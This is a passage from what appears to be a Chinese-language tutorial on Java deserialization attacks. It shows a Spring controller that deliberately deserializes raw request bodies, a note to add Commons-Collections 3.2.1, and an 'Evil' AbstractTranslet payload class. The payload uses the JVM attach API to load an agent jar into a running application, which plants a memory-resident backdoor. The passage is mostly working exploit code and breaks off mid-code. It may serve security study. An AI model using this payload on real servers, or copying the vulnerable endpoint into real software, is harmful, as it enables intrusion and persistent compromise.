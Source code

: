 ```java
@Controller
public class Test {

    @ResponseBody
    @RequestMapping("/unser")
    public String unserialize(HttpServletRequest request, HttpServletResponse response) throws Exception {
        java.io.InputStream inputStream =  request.getInputStream();
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        objectInputStream.readObject();
        return "Success!";
    }

    @ResponseBody
    @RequestMapping("/demo")
    public String demo(HttpServletRequest request, HttpServletResponse response) throws Exception{
        return "Hello,Sentiment!";
    }
}
```
在pom.xml中将Common-Collections3.2.1依赖添加进去就可以。
通过反序列化将agent.jar注入进去，像上面的命令注入那样，只不过需要做一些修改。
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.List;

public class Evil  extends AbstractTranslet {
    static {
        try{
            java.lang.String path = "D:\\Test\\Agent\\AgentJsp-jar-with-dependencies.jar";
            URL[] url = {new URL("file:///D:/Program Files/Java/jdk1.8.0_172/lib/tools.jar")};
            java.net.URLClassLoader classLoader = URLClassLoader.newInstance(url);
            Class<?> VirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> VirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            Method listMethod = VirtualMachine.getDeclaredMethod("list",null);
            List<Object> list = (java.util.List<Object>) listMethod.invoke(VirtualMachine,null);

            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                Method displayName = VirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);
				//自己的springboot运行路径
                if (name.contains("com.sf.agent.AgentApplication")){
                    Method getId = VirtualMachineDescriptor.getDeclaredMethod("id",null);
                    String id = (String) getId.invoke(o,null);
                    System.out.println("id => " + id);
                    Method attach = VirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    Object vm = attach.invoke(o,new Object[]{id});
                    Method loadAgent = VirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm,new Object[]{path});
```